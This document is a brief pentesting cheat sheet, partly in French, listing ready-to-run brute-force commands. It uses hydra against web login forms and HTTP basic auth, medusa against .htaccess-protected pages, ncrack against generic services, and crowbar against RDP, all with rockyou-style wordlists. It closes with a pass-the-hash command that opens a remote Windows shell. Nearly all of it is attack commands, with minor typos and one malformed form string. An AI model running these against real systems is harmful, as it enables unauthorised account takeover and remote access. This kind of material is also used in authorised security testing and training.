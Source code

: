 #Hydra

Login page attack

```sh
hydra -l user -P wordlist.lst <FQDN/IP> http-post-form "/login:user=^USER^&^PASS^:F=Invalid" -f
```

```sh
hydra -l user -P wordlist.lst <FQDN/IP> http-post-form "/login:user=^USER^&^PASS^:S=logout.php" -f
```

Http-Get attack

```sh
hydra -I -l bob -P /opt/rockyou.txt "http-get://10.10.6.224/protected:A=BASIC"
```

---
#medusa

```sh
#medusa -h <IP> -u user -P wordlist.lst -M <module> 
```

HTTP htaccess Attack with medusa (Basic Authentication)
Les pages avec les popus JS pour l'authentification qui utilise une protecter `.htaccess`

```sh

medusa -h 192.168.45.130 -u user -P /opt/rocyou.txt -M http -m DIR:/dvwa/login.php 
```

#ncrack

```sh
ncrack -vv -U user.lst -P /opt/rocyou.txt <target-ip>:<protocol>
```

#crowbar

Remote Desktop Protocl Attack with Crowbar

```sh
#crowbar -b <protcol> -S <IP> -u user -C wordlist.lst -n 2
crowbar -b rdp -S 192.168.45.130/32 -u user -C /opt/rocyou.txt -n 1
```

Passing the hash in windows

```sh
pth-winexe -U 'user%LMHASH:NTHASH' //@TARGET_IP cmd.exe
```
